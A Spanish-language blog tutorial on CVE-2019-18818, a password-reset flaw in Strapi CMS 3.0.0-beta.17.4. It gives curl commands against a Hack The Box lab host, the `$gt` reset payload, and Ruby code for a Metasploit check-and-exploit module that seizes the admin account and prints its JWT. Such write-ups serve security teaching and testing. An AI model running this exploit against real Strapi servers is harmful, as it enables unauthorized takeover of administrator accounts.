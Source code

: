 ```yaml
---
title: "CVE-2019-18818 (Metasploit) + POC"
layout: single
excerpt: "Strapi CMS versión 3.0.0-beta.17.4 maneja mal el restablecimiento de contraseña y esto permite a un atacante hacerse con el control de una cuenta privilegiada, de manera que he desarrollado un módulo de exploit en Metasploit y enseño de manera práctica como explotar dicha vulnerabilidad."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153461632-ddd95721-79b0-4446-90e8-9bb5ef77a0d9.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153460626-f2c25ef3-7e30-4f91-b1da-fe14a064fba1.png">
</p>

Hace relativamente poco comencé en la creación de módulos auxiliares y exploits para *Metasploit Framework* y me gustaría compartir mi experiencia en mi primer módulo auxiliar del CVE-2019-18818.

Antes de comenzar a explicar de que se compone el módulo, un breve resumen sobre que es *CVE-2019-18818*. Esta vulnerabilidad fue publicada en la [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) el 11 de julio de 2019, dicha falla maneja mal el restablecimiento de la contraseña en `packages/strapi-admin/controllers/Auth.js` y `packages/strapi-plugin-users-permissions/controllers/Auth.js` en Strapi 3.0.0-beta.17.4, por ende esto permite cambiar la contraseña de un usuario privilegiado y asimismo garantizar el acceso no autorizado al CMS, de ahi que fue catalogada como CRÍTICA por su gravedad y fácil explotación.

Por si no fuera poco, tiempo después, el 5 de diciembre de 2019 fue encontrado el CVE-2019-19609 en Strapi 3.0.0-beta.17.8, a diferencia del CVE-2019-18818, esta permitía la ejecución de código arbitrario por un usuario autenticado. 

A todo esto, usar la beta de Strapi CMS en versiones desactualizadas da oportunidad a un atacante a comprometerte. 

Ahora bien, como se explota?, pues bien, es muy fácil, enviaremos datos JSON al servidor a una ruta específica del CMS y ganaremos acceso como un usuario legítimo volcando un JSON Web Token.

Primeramente, es verificar si la versión que se está empleando en Strapi es vulnerable, es decir anteriores a la 3.0.0-beta.17.5, por ello podemos enviar datos JSON mediante una petición GET al servidor en '/admin/init' especificando a la cabecera `Content-Type` que estamos enviando datos en JSON, esto lo podemos hacer de la siguiente manera con `curl`.

```bash
┌──(root💀kali)-[/home/kali]
└─$ curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
En el módulo auxiliar de Metasploit, implemente esta funcionalidad en la función `check`.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

Hago uso de `send_request_raw` para enviar una petición GET, seguidamente parseo la data en JSON de la respuesta del servidor con `JSON.parse` y la guardo en la variable `version`, defino una condición, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, extraigo strapiVersion de la variable versión que contiene la versión y hace una comparacion, si strapiVersion es igual a '3.0.0-beta.17.4', entonces el servidor es vulnerable, por lo cual devuelvo `return Exploit::CheckCode::Vulnerable`, de lo contrario retorno `return Exploit::CheckCode::Safe`.

Hasta ahora esto ha sido para verificar que el servidor sea vulnerable, ahora vayamos con la explotación de la vulnerabilidad.

Enviaremos una petición POST a `/admin/auth/reset-password` y especificaremos los siguientes datos en JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmacion nueva contraseña
}
```
Lo podemos hacer con `curl` de esta manera:

```bash
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> La respuesta nos muestra un JWT valido del usuario admin que puede ser usado mas tarde.

Este seria el codigo en el modulo de Metasploit.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

Comienzo definiendo mi data JSON en formato Ruby concatenando los datos del usuario, la guardo en la variable `json_body` y envió una petición POST usando `send_request_cgi`, genero mi data JSON válida con `JSON.generate(json_body)` en la peticion, guardo la petición en la variable `res` y parseo la data de esta con `JSON.parse(res.body)`, la almaceno en `json_format` y después guardo el parámetro JWT que contiene el JSON Web Token del usuario admin en la variable `jwt = json_format['jwt']` y hago una comparación, `if res.code == 200`, es decir si la respuesta del código de estado de lado del servidor es 200 OK, quiere decir que la contraseña se cambió con éxito y te muestra la contraseña, el usuario y el JWT nuevos del usuario admin, de lo contrario muestro *Could not change admin user password*.

Exploit download: [ExploitDB](https://www.exploit-db.com/exploits/50716) or [Packet Storm](https://packetstormsecurity.com/files/165896/Strapi-CMS-3.0.0-beta.17.4-Privilege-Escalation.html)

# POC
<p align="center">
<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>
</p>

